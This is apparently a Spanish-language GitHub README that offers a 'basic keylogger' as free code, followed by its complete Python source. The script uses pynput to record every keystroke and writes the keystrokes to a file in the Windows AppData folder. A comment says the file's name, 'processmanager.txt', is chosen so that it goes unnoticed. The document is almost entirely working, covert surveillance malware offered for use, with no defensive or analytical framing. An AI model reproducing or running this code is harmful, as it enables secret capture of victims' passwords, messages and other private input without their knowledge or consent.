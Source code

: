 # Keylogger
**Aqui vas a poder descargar un Keylogger Básico, siéntete libre de modificar lo que quieras a tu gusto es código libre!**

**Este programa te permite registrar todas las entradas del teclado de un ordenador, eres libre de modificarlo a tu gusto.**


# Code

```python
# Importamos los modulos que usaremos

import os
import pynput
from pynput.keyboard import Listener 


keys = []
count = 0


path = os.environ ['appdata'] + '\\processmanager.txt' # Elegimos ruta donde guardar el txt + ponemos un nombre que pase desapercibido (Windows)


def on_press(key):
    global keys, count

    keys.append(key)
    count +=1

    if count >= 1:
        count = 0
        write_file(keys)
        keys = []

def write_file(keys):
    with open(path, 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            
            if k.find('backspace') > 0:
                f.write(' Backspace ')

            elif k.find('enter') > 0:
                f.write('\n')
                
            elif k.find('shift') > 0:
                f.write(' Shift ')
            
            elif k.find ('space') > 0:
                f.write(' ')

            elif k.find('caps_lock') > 0:
                f.write(' caps_lock ')

            elif k.find('Key'):
                f.write(k)


with Listener(on_press=on_press) as Listener:
    Listener.join()


```
